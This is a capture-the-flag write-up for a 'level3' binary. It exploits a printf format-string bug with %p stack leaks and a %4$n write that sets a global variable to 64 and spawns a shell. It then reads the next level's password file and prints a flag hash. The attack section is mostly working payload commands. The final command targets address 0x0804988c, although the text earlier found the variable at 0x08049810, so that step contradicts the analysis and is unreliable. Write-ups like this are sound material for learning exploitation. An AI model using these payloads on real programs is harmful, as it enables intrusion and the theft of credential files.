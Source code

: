 # level3

We find an executable `level3`. We examine it in Cutter. We determine the following :

- A `main` calls a `v` function
- `v` calls `fgets`, which is safe
- It then calls `printf` with our input, which is **not** safe
- The function assigns the value of variable `m` to `eax`
- It then compares `eax` to `64`
- If it's equal, it starts a `system("/bin/sh");` and we win

We have to exploit the `printf` function, in order to set the value of variable `m` to `64`.

## **The exploit**

When you ask `printf` for values without giving it any, it will just look for whatever's next in the stack. For example, `printf("%p\n")` will print the address of the next thing on the stack.

Even better, our input is also on the stack - which will be important to control printf's behaviour.

We want to have a look at the stack. We ask printf for a series of pointers, starting with `deadbeef` in hex, to find our buffer's place in the stack. We run :

```
python -c 'print("\xef\xbe\xad\xde %p %p %p %p")' | ./level3
```

We get :

```
ﾭ� 0x200 0xb7fd1ac0 0xb7ff37d0 0xdeadbeef
```

We see `0xdeadbeef`, the beginning of our input, is the fourth address.

Now, we want to do a couple things. First, we want to access the fourth pointer directly. We use the following syntax :

```
python -c 'print("\xef\xbe\xad\xde %4$p")' | ./level3
```

Next, we want to change our flag to something useful. `%n`, for example ; `%n` reads a pointer, and writes in it the number of bytes printed by printf so far. We change to :

```
python -c 'print("\xef\xbe\xad\xde" + "%4$n")' | ./level3
```

This will write the number of bytes (4, in this example) in the address `0xdeadbeef`. We could change this to an actual address. The address, of `m`, for example.

In gdb, we run `info variables` and find `m` is at `0x08049810`. We change our command again :

```
python -c 'print("\x10\x98\x04\x08" + "%4$n")' | ./level3
```

This will set `m` to `4`. Finally, we need to write more bytes, so the `%n` sets the value to `64`. We add 60 `A`'s :

```
python -c 'print("\x10\x98\x04\x08" + "A" * 60 + "%4$n")' | ./level3
```

We're ready to solve. We run the two-time `cat` block, as usual :

```
( python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' ; cat ) | ./level3
```

## **The flag**

It works ! In our interactive shell, we run :

```
cat /home/user/level4/.pass
```

... and get the flag for `level3` :

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```